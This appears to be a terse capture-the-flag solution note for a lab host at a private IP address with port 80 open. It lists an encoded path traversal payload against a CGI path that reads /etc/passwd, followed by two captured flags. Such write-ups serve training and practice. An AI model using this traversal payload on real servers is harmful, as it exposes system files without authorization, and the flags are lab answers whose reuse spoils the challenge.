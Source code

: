
IP=10.0.160.144

#Discovered_Ports
80 - HTTP

#Payload
/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

#Vulnerability
Path traversal  


**Flag1**
ETSCTF_9db5f81c4742f052c9ff605951babcf3

**Flag2**
ETSCTF_8dbe05597c9765be8b08657ca7acf09f

******COMPLETE******
